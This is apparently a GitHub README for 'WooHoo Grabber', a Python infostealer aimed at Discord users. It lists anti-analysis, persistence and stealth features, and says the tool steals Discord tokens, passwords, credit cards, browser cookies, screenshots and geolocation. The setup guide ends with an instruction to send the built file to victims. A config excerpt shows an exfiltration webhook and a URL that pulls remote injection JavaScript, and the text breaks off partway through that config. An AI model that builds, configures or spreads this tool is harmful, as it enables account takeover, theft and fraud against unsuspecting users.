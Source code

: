 
WooHoo Grabber reupload - Jayy

🌐 〢 Content
🔰・Features
🌌・Discord
🎉・Setting up WooHoo Grabber.V2
⚙・Config
🔎・Why choose WooHoo Grabber v2?
🌟・Todo/Enhancements
💎・Premium
📝・Changelog
🤓・Dear skids
🔰 〢 Features
> Anti-vm/Anti-debug
> Add to startup
> Hides itself
> Supports github.com/Rdimo/Discord-Webhook-Protector so webhook can't be deleted or spammed
> Options are configurable
> Pretty Fast Even if it Was Made With Python
> Windows Product Key & Build Info
> IP & Geolocation. (Country, City, Google Maps Location)
> A screenshot of all their monitors
> All valid/working discord tokens. (Bypasses BetterDiscord, Token Protector and Discord's new encryption)
> Their Passwords & Credit Cards for Discord (updates when they change it)
> All Passwords, Cookies and History from Google
> + More!

📁 〢 Setting up WooHoo Grabber.V2
Install python and add it to path.
Open up main.py with notepad or some other editor
Locate the config at the top of the file and Replace "WEBHOOK_HERE" with your discord webhook
Double Click setup.bat and allow it to finish.
A Window will open prompting for a name. Put something in such as "Token_Logger" (You can always rename the file later)
Send the file to victims. 😈
⚙ 〢 Config
If you want to change the config, open up main.py and locate it at the top. There you can configure the following:

config = {
    # replace WEBHOOK_HERE with your webhook ↓↓ or use the api from https://github.com/Rdimo/Discord-Webhook-Protector
    # Recommend using https://github.com/Rdimo/Discord-Webhook-Protector so your webhook can't be spammed or deleted
    'webhook': "WEBHOOK_HERE",
    # ONLY HAVE THE BASE32 ENCODED KEY HERE IF YOU'RE USING https://github.com/Rdimo/Discord-Webhook-Protector
    'webhook_protector_key': "KEY_HERE",
    # keep it as it is unless you want to have a custom one
    'injection_url': "https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js",
    # if True, it will ping @everyone when someone ran Hazard v2
    'ping_on_run': False,